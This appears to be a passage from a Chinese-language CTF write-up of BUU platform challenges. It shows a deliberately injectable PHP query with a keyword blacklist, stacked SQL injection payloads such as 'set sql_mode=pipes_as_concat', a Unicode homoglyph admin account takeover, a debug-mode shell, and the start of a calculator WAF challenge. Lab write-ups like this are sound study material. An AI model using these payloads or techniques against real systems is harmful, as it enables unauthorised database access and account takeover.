 ```php
    if(isset($post['query'])){
        $BlackList = "prepare|flag|unhex|xml|drop|create|insert|like|regexp|outfile|readfile|where|from|union|update|delete|if|sleep|extractvalue|updatexml|or|and|&|\"";
        //var_dump(preg_match("/{$BlackList}/is",$post['query']));
        if(preg_match("/{$BlackList}/is",$post['query'])){
            //echo $post['query'];
            die("Nonono.");
        }
        if(strlen($post['query'])>40){
            die("Too long.");
        }
        $sql = "select".$post['query']."||flag from Flag";
        mysqli_multi_query($MysqlLink,$sql);
        do{
            if($res = mysqli_store_result($MysqlLink)){
                while($row = mysqli_fetch_row($res)){
                    print_r($row);
                }
            }
        }while(@mysqli_next_result($MysqlLink));

    }

    ?>
```

从 sql 语句可以看出存在堆叠注入，且 `flag` 被 `||` 拼接在了输入的后面。因此一种办法是把管道变成连接符，然后查询 `1||flag`：

```
1; set sql_mode=pipes_as_concat;select 1
```

另一种办法是直接输入 `*,1`，从而构造 `select *,1||flag from Flag`，这里的 `||` 就是默认的或运算。

## \[HCTF 2018\] admin

注册时输入 unicode 字符会报错，由于开启了 debug 模式，直接可以拿到 python 的 shell，从 `index.html` 中读 flag。这个应该是 BUU 平台的非预期。

实际上，本题预期解是利用 Unicode 同形字，注册 `ᴀdmin` 并登陆，然后修改密码即可修改 `admin` 的密码，但是同样出现了很多非预期，具体参考 [出题人题解](https://www.ckj123.com/?p=147)。

## \[RoarCTF 2019\] Easy Calc

首页可以发现 js 代码，也就是自定义的 waf：

```js
$("#calc").submit(function () {
  $.ajax({
    url: "calc.php?num=" + encodeURIComponent($("#content").val()),
    type: "GET",
    success: function (data) {
      $("#result").html(`<div class="alert alert-success">
        <strong> 答案:</strong>${data}
        </div>`);
    },
    error: function () {
      alert(" 这啥? 算不来!");
    },
  });
  return false;
});
```
